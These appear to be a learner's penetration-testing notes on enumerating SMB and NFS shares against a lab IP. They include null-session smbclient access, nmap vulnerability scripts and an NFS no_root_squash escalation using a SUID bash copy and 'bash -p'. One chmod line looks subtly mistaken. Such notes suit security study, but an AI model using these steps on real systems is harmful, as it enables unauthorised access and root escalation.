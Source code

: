 

3. smbmap

```bash
smbmap -H 172.31.188.142 : share, null session authentication 
```

- actual connection 
```
smbclient \\\\172.31.188.142\\samba-share -U ""
```
- can get SSH public key, but private key access denied

```
nmap -p 445 -sS -Pn -n --script="smb-vuln*" 172.31.188.142
```
- not many results casue it's samba = smb in linux 
    - not found for ms- vulns (win) 
    - if win > smb-vuln scripts necessary.



### NFS (network file system)
- you can mount target's specific dir (if the nfs-server set the mount on /etc/exports)
- mostly, linux or Unix 

- ports
    - 111 - RPCbind or Portmapper : metadata about port or process = information gathering 
    - 2049 - NFS : actual NFS server 


- access control (/etc/exports) :
    - check which directory exposed? which host can accessed? 
    - writable/readable?
    - no_root_sqash

- Misconfiguration
- NO_ROOT_SQUASH : check if it's disable or not by writing txt files 
    - can read/write as root = you can upload anything as root > set SUID to binary file (it's not worked for shell script or python script) 
        - even though I'm root in my host on the mount, I can get a root priv on the mount = writable
    HOST : 
    `cp /bin/bash .`
    `chmod +s /bin/bash`
    TARGET: 
    `./bash -p` 
    or 
    `./python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
        - normal shell doesn't work

    

- NFS nobody = low level



- scripts
    - nfs-showmount : mount or direcctory exposed, specific IP whitelist /16 = misconfiguration
    - nsf-ls: ls
    - nfs-stat: filesystem name, storage
    - rpcinfo : what service are working in ports
```
sudo nmap -p 111,2049 -Pn -n -sV --script="nfs-*" 172.31.188.142 : some scripts not working right away, try it several times
```
